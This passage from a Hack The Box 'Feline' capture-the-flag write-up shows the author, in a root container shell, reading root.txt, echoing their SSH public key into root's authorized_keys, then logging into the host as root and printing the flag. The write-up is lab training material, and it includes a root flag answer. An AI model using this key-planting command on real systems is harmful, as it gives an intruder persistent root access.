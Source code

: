 ```text
drwx------    2 root     root          4096 Jun 30 09:10 .ssh
-rw-------    1 root     root         12235 Aug 26 14:28 .viminfo
-rw-r--r--    1 root     root           165 Jun 30 11:59 .wget-hsts
-rw-------    1 root     root            33 Dec 13 16:52 root.txt
drwxr-xr-x    3 root     root          4096 May 18  2020 snap
/tmp # ^[[28;8Rcat root.txt
cat root.txt
cadbc87f7fbe8bff317c9db5063c9e63
/tmp # ^[[28;8Recho 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBALitdwPZ4cTmWVPyzqI7w1UMtDj2y4uYZBCCdc2yi+tHz8y1VkLLWWH9ohWsGQEOT1L9t/Zc8emG+VqFZL/N0w=' >> .ssh/authorized_keys
echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTY
AAABBBALitdwPZ4cTmWVPyzqI7w1UMtDj2y4uYZBCCdc2yi+tHz8y1VkLLWWH9ohWsGQEOT1L9t/Zc8e
mG+VqFZL/N0w=' >> .ssh/authorized_keys
```

I changed directories to `/tmp` in the container, which now mirrored `/root` on the host machine. I echoed my ssh key to `root`'s `authorized_keys` file, then tried to login with ssh

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ ssh root@10.10.10.205 -i tomcat.key                  
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 13 Dec 2020 11:38:59 PM UTC

  System load:                      0.11
  Usage of /:                       46.1% of 19.56GB
  Memory usage:                     35%
  Swap usage:                       0%
  Processes:                        211
  Users logged in:                  0
  IPv4 address for br-e9220f64857c: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.205
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:2c51

 * Are you ready for Kubernetes 1.19? It's nearly here! Try RC3 with
   sudo snap install microk8s --channel=1.19/candidate --classic

   https://microk8s.io/ has docs and details.

64 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Aug 26 14:28:09 2020
root@VirusBucket:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
VirusBucket
root@VirusBucket:~# ls
root.txt  snap
root@VirusBucket:~# cat root.txt
cadbc87f7fbe8bff317c9db5063c9e63
```